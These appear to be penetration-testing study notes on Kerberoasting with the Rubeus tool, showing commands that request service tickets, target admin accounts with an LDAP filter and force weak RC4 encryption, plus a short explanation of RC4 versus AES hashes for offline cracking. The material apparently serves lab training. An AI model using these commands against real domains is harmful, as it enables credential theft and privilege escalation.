 ```Bash
cat .\ilfreight_tgs.csv
```

## Using Rubeus

### Running Rubeus

```Bash
.\Rubeus.exe
```

- Important
    
    > [!important] It is worth scrolling through the menu, familiarizing yourself with the options, and reading up on the various other possible tasks. Some options include:
    > 
    > - Performing Kerberoasting and outputting hashes to a file
    > - Using alternate credentials
    > - Performing Kerberoasting combined with a pass-the-ticket attack
    > - Performing "opsec" Kerberoasting to filter out AES-enabled accounts
    > - Requesting tickets for accounts passwords set between a specific date range
    > - Placing a limit on the number of tickets requested
    > - Performing AES Kerberoasting
    

### **Using the /stats Flag**

```Bash
.\Rubeus.exe kerberoast /stats
```

### Rubeus to request Admin Account

```Bash
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Rubeus **Using the /tgtdeleg Flag**

> [!important] We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption

```Bash
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

# About Kerberoasting Encryption - The Difference between RC4 and AES

> [!important]
> 
> - Kerberoasting attacks typically request **RC4-encrypted TGS tickets** (etype 23) because RC4 is weaker and easier to crack offline with tools like Hashcat. These hashes usually begin with `$krb5tgs$23$*`.
> - In some cases, **AES-128 (etype 17) or AES-256 (etype 18)** encrypted tickets are returned (e.g., `$krb5tgs$18$*`), which are much **slower to crack**, though still possible—especially if weak passwords are used.
